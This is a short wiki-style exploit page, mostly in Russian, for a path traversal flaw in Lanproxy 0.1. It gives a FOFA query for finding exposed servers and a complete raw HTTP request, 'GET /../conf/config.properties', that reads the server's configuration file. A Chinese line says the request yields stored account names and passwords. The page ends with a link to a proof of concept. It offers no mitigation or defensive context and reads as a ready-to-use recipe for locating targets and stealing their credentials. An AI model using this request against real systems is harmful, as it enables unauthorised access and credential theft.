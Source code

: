 <languages  />

Воздействие уязвимости
----------------------

    Lanproxy 0.1

FOFA
----

    header= "Server: LPS-0.1"

Отправьте следующий запрос:

    GET /../conf/config.properties HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
成功在配置文件中讀取 賬號密碼。

</div>
POC
---

<https://github.com/FanqXu/CVE-2021-3019/>